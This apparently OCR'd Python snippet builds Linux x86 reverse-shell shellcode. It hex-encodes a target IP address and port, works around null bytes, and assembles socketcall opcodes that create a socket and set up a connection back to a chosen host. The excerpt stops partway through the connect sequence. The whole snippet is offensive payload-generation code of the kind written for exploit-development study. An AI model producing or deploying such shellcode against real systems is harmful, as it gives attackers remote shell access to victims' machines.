 ```python

hexip = "{0:#0{1}x}".format(int.from_bytes(inet_aton(ip), 'big'), 10)

#
HANDLE_IP_ADDRESS = None

if (hexip[2:4] == '00'
    or hexip[4:6] == '00'
    or hexip[6:8] == '00'
    or hexip[8:10] == '00'):
    HANDLE_IP_HIGH = generate_ip_shellcode(hexip[6:10])
    HANDLE_IP_LOW = generate_ip_shellcode(hexip[2:6])

    HANDLE_IP_ADDRESS = HANDLE_IP_HIGH + HANDLE_IP_LOW

else:
    HANDLE_IP_ADDRESS = "\x68" + bytearray.fromhex(hexip[2:]).decode('iso-8859-1')



# Port Number handling
# Zero padded port in hexadecimal
hexport = "{0:#0{1}x}".format(port, 6)

# If port is below 256
if hexport[2:4] == '00':
    HANDLE_PORT_NUMBER = ("\x80\xc6" +  # add dh <port number low bytes>
                          bytearray.fromhex(hexport[4:6]).decode('iso-8859-1') +
                          "\x66\x52" +  # push word dx
                          "\x31\xd2")  # xor edx, edx

elif hexport[4:6] == '00':
    HANDLE_PORT_NUMBER = ("\x80\xc2" +  # add dl <port number high bytes>
                          bytearray.fromhex(hexport[2:4]).decode('iso-8859-1') +
                          "\x66\x52" +  # push word dx
                          "\x31\xd2")  # xor edx, edx
else:
    HANDLE_PORT_NUMBER = ("\x66\x68" +  # push word <big endian port number>
                          bytearray.fromhex(hexport[2:4]).decode('iso-8859-1') +
                          bytearray.fromhex(hexport[4:6]).decode('iso-8859-1'))

shellcode = bytearray("\x31\xdb"                # xor ebx, ebx 
                      "\xf7\xe3"                # mul ebx
                      "\x50"                    # push eax
                      "\x43"                    # inc ebx
                      "\x53"                    # push ebx
                      "\x6a\x02"                # push 0x02
                      "\x89\xe1"                # mov ecx, exp
                      "\xb0\x66"                # mov al, 0x66
                      "\xcd\x80"                # int 0x80
                      "\x5f"                    # pop edi
                      "\x97"                    # xchg edi, eax
                      "\x93"                    # xchg ebx, eax
                      "\xb0\x66" +              # mov al, 0x66
                      HANDLE_IP_ADDRESS +
                      HANDLE_PORT_NUMBER +
                      "\x66\x53"                # push word bx
                      "\x43"                    # inc ebx
                      "\x89\xe1"                # mov ecx, esp
                      "\x6a\x10"                # push 0x10
                      "\x51"                    # push ecx
                      "\x57"                    # push edi
                      "\x89\xe1"                # mov ecx, esp
```